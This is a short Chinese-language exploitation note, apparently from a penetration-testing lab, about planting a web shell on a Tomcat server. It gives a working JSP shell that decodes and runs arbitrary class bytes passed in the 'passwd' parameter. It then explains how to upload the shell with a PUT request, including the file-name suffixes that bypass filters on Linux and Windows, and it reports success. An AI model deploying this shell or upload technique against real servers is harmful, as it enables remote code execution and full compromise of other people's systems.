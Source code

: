 ```jsp
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

抓包获取到该tomcat的包，<span data-type="text" style="color: var(--b3-font-color9);">将GET改为PUT</span>，在请求体里写上shell。注意文件名格式、IP要写对：

linux: jsp/               winowds:jsp%20              jsp::\$DATA

​![image](assets/image-20240920191710-jt2na28.png)​

访问成功，200。

​![image](assets/image-20240920191737-zrzls6m.png)​

​![image](assets/image-20240920191852-zvr6bzu.png)​
